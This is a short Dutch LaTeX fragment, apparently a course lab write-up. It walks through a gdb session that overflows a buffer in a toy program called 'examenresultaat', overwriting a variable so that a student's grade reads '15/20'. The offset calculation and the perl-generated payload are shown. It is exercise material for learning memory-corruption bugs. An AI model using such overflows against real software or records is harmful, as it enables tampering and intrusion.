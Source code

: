 \begin{enumerate}
\begin{enumerate}
  	\item Berekenen hoeveel bytes er geschreven moeten worden om de variabele punt te overschrijven
  	\item \$1 = 16
  	\end{enumerate}
  \item (gdb) run \$(perl -e 'print "A"x17')
  	\begin{enumerate}
  	\item 17 keer A afprinten
  	\item De variabele punt zal nu overschreven worden met A
  	\end{enumerate}
  \item (gdb) cont
  \item (gdb) x/s punt
  	\begin{enumerate}
  	\item 0xbffff66a: "5/20"
  	\end{enumerate}
  \item (gdb) cont
  \item (gdb) x/s punt
  	\begin{enumerate}
  	\item 0xbffff66a: "A"
  	\end{enumerate}
  \item Gelukt!
  \item Volgens de opgave moet Billy Eliot \textgreater 10/20 behalen
  \item (gdb) quit
  \item ./examenresultaat ``\$(perl -e `print ``Billy Eliot'' . ``~~'' x5 . ``15/20'' ')''
\end{enumerate}

